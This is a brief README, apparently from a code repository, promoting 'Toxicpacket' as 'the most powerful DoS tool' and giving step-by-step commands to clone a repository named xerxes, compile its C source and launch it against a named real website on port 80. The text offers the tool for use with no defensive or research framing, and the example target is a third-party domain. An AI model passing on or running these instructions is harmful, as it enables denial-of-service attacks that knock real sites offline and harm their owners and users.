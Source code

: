 # Toxicpacket
Toxicpacket the most powerful DoS tool
git clone https://github.com/ravenduero/xerxes/
cd xerxes
gcc xerxes.c -o xerxes
USAGE : ./xerxes www.techchip.net 80
